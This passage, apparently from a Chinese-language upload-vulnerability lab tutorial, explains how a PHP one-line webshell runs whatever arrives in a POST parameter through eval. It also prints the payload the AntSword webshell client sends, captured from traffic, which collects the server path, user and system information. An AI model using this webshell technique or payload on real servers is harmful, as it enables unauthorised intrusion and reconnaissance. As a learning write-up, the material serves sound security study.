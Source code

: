 ```php
 
4.$_POST['attack']  在该路径下接受attack参数 
 
 
假如我们传入 attack='ls'
 
那么就会被解析为 
 
<?php eval('ls')?>
那么就会执行 ls这个命令
```

## 了解完一句话木马 我们了解一下 蚁剑的工作原理

通过指定端口进行抓包可以发现

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
function asenc($out){
	return $out;
};
function asoutput(){
$output=ob_get_contents(); //返回输出缓冲区的内容
ob_end_clean(); //清理(擦除)缓冲区并关闭输出缓冲
echo "c6b05fd97";
echo @asenc($output);echo "d69e35d304";}
ob_start(); //打开输出缓冲区
try{
$D=dirname($_SERVER["SCRIPT_FILENAME"]); //获取当前url路由的绝对路径
if($D=="")$D=dirname($_SERVER["PATH_TRANSLATED"]); //当前脚本所在文件系统（非文档根目录）的基本路径
$R="{$D}	";
if(substr($D,0,1)!="/"){
foreach(range("C","Z")as $L)if(is_dir("{$L}:"))$R.="{$L}:";
}
else{
$R.="/";}$R.="	";
$u=(function_exists("posix_getegid"))?@posix_getpwuid(@posix_geteuid()):"";
$s=($u)?$u["name"]:@get_current_user();
$R.=php_uname();
$R.="	{$s}";echo $R;;}catch(Exception $e){echo "ERROR://".$e->getMessage();};asoutput();die(); //获取目录，uid，系统信息，用户等信息
```



## Pass-1  前端验证



<img src="https://i-blog.csdnimg.cn/blog_migrate/96a56b717a7510eec844f685ad588e91.png" alt="" style="max-height:328px; box-sizing:content-box;" />

